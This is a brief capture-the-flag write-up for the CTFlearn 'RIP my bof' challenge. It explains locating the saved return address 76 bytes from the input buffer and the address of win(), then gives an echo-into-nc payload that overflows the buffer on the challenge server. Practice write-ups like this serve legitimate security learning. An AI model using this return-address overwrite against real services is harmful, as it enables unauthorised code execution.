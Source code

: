 # [RIP my bof](https://ctflearn.com/challenge/1011)

The program outputs the stack before and after input; from this we can easily see that return address from vuln() is stored 76 bytes from input buffer \
GDB ./server -> `info functions` -> win() is at **0x08048586**

```shell
echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x86\x85\x04\x08\n" | nc thekidofarcrania.com 4902
```

